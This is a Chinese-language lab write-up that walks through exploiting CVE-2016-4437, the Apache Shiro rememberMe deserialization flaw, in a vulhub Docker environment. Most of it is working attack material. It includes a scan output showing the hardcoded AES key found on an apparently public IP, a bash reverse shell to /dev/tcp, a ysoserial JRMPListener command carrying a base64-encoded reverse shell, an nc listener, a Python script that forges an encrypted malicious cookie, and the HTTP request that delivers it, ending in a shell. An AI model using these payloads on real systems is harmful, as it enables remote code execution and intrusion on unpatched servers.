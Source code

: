 ```yaml
---
description: >-
  Shiro是一个用于Java应用程序的开源安全框架，用于身份认证、授权和会话管理等功能。然而，Shiro在过去存在着一个严重的安全漏洞，即Shiro反序列化漏洞（Shiro
  Deserializati
---
```


# CVE-2016-4437

### 漏洞原理：

Apache Shiro框架提供了记住我（RememberMe）的功能，关闭了浏览器下次再打开时还是能记住你是谁，下次访问时无需再登录即可访问。\
Shiro对rememberMe的cookie做了加密处理，shiro在CookieRememberMeManaer类中将cookie中rememberMe字段内容分别进行序列化、AES加密、Base64编码操作。\
在识别身份的时候，需要对Cookie里的rememberMe字段解密。根据加密的顺序，不难知道解密的顺序为：

* 获取rememberMe cookie
* base64 decode
* 解密AES（加密密钥硬编码）
* 反序列化（未作过滤处理）\
  但是，AES加密的密钥Key被硬编码在代码里，意味着每个人通过源代码都能拿到AES加密的密钥。因此，攻击者构造一个恶意的对象，并且对其序列化，AES加密，base64编码后，作为cookie的rememberMe字段发送。Shiro将rememberMe进行解密并且反序列化，最终造成反序列化漏洞

### CVE-2016-4437环境搭建：

我这里是用docker部署的环境

{% embed url="https://github.com/vulhub/vulhub" %}

下载好以后cd想要搭建的漏洞环境的文件夹中，执行以下命令

```
docker-compose up -d
```

攻击机环境准备

这里用到了一个常用的Java反序列化漏洞利用工具ysoserial，下面是下载地址

{% embed url="https://github.com/frohoff/ysoserial.git" %}

下载好以后cd到ysoserial包中，构建环境，完成以后就可以使用ysoserial了

{% code lineNumbers="true" %}
```
apt-get update
apt-get install maven
cd ysoserial
mvn package -DskipTests
```
{% endcode %}

下载ysoserial的java包

{% embed url="https://github.com/frohoff/ysoserial/releases/tag/v0.0.6" %}

```
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```

### 漏洞探测：

访问目地址，用户名密码这里随便输了，勾选remember me

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

使用Shiro\_exploit用于检测与利用Apache Shiro反序列化漏洞脚本

下载该poc

{% embed url="https://github.com/insightglacier/Shiro_exploit" %}

需要把这一行的java改成/root/Desktop/test/jdk1.8.0\_202/bin/java，也就是需要指定java版本，不然会出现使用不了的问题

```
 popen = subprocess.Popen(['/root/Desktop/test/jdk1.8.0_202/bin/java','-jar',fp,gadget,command],
```

```
┌──(root㉿kali)-[~/Desktop/test/Shiro_exploit]
└─# python2 shiro_exploit.py -u http://xx.xx.xx.7:8080/doLogin
checking url:http://43.143.138.7:8080/doLogin
try CipherKey :kPH+bIxk5D2deZiIxcaaaA==
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
generator payload done.
send payload ok.
checking.....

vulnerable:True url:http://43.143.138.7:8080/doLogin    CipherKey:kPH+bIxk5D2deZiIxcaaaA==
```

运行脚本发现存在漏洞key为：kPH+bIxk5D2deZiIxcaaaA==

生产反弹shell的payload，这里有一个生产反弹shell的地址

{% embed url="https://www.revshells.com/" %}

```
bash -i >& /dev/tcp/xx.xx.xx.xx/9992 0>&1
```

vps上执行命令，通过 ysoserial中的JRMP监听模块,这里监听了9991端口，我这里的java版本用的是1.8，这里面有一段base64编码是上面反弹shell的base64编码，反弹shell的端口我这边监听9992端口

{% code lineNumbers="true" %}
```sh
./java -cp ../../ysoserial-all.jar ysoserial.exploit.JRMPListener 9995 CommonsBeanutils1 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1NC4xMjkvOTk5MiAwPiYx}|{base64,-d}|{bash,-i}'
nc -lnvp 9992
```
{% endcode %}

payloads/JRMPClient 是结合 exploit/JRMPListener 使用的； JRMPListener是ysoserial 工具里的其中一个利用模块，作用是通过反序列化，开启当前主机的一个 JRMP Server ，具体的利用过程是，将反序列化数据 发送到 Server 中，然后Server中进行反序列化操作，并开启指定端口，然后在通过JRMPClient去发送攻击 payload； payloads/JRMPClient 生成的 payload 是发送给目标机器的，exploit/JRMPListener 是在自己服务器上使用的。

伪造cookie

```
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['/root/Desktop/test/jdk1.8.0_202/bin/java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext
 
if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
print "rememberMe={0}".format(payload.decode())
```

这个poc的java也需要指定修改下面这一行中的内容，其他包名如果不正确也需要修改

```
popen = subprocess.Popen(['/root/Desktop/test/jdk1.8.0_202/bin/java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
```

在执行这边脚本的时候发现一个问题，会出现一个报错

```
ImportError: No module named Crypto.Cipher  
```

这里需要用pip2安装pycryptodome

```
pip2 install pycryptodome
```

如果没有pip2 就需要先安装pip2

```
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py 
```

python shiro\_pc.py 攻击者IP:攻击者监听的java端口

```
┌──(root㉿kali)-[~/Desktop/test/Shiro_exploit]
└─# python2 shiro_poc.py xx.xx.xx.xx:9995 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
rememberMe=i8DIfRooQ6yl7xNi7x/maIx9xXtpAlmU7Sqw6ghNmAY4NMzDTW3rL9GZYfATAngIQpE4U8rgxBjUZ0yq4MPO0XZtPq/lfXTMfl//6L/hzCOpE7M8S58JQCvoeh8/r5+PSrYEu/kSJpudHiweBvi0luJocHKnmqeDBCW24pOlCCm7SujEXeUKo/kmgcCXIbZqew3fm8DUrgxDmD2b+clJEsPTOLEBWPH7SZqRhtfKJJR8thtlL4dIcKBbbdrsctgpTn/54+u2cVzwbsukFLE7JDKiQb5gJZdoBQQyKv4nw2jX2KRbKVvlg+rSNvhqgr/XehW1lQqRYfiUTCV0hTotAa2JMRh8oxdr99T0pb8Gk+LEWnaNLfUL2yGU4DiKsX5s0/JOU5IPO6dPiaOuAilrpg==
```

将生成的的rememberMe信息放入到Burp请求包中，发送请求

<pre><code>POST /doLogin HTTP/1.1
Host: 192.168.254.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://192.168.254.130:8080
Connection: close
Referer: http://192.168.254.130:8080/login
Cookie: JSESSIONID=1A1D26C9046F377DF661ACE23A3FF433;<a data-footnote-ref href="#user-content-fn-1">rememberMe=m8TSOozYQRuapaXGMjgfAkXzPJplnG5DURFqQMVxMhKYvXYz7bpayoyu+rBBFk+NBGL3AZItTY6t6iyJdtmRlhw8Q2w1X9D+uoI4a4rRn85agBiZznpebK47J1raHa9kzVAFplA2f6Mkh3q3RQHmEgdnyY9GZPDo9sk0HDKhjc7RUzP/cBS+8mfHM4BXdNCctXY3v6By9PgvSlxQfkbgaU7SsDVZsFqNTKMDzT0b6fojbCIIb+lF+lCdHzGuyYi4K02gb4WKNLDe/e/l7K7wzS0hshe3+LlqRNi2tcKqdaq8DxRMo/Ndfsc78VhIBgEWDn6KSPXJ2N8XQny2YEREayo8+lL9vymimShJui6ueTdC7fTnbPorW4f/zW5YxdcyX7UjNq+juPpv/rX1MFrvXQ==</a>
Upgrade-Insecure-Requests: 1

username=root&#x26;password=123654&#x26;rememberme=remember-me
</code></pre>

这里可以看到开启的JRMP Server 服务有了响应

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

nc监听的端口返回了shell

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

[^1]: 
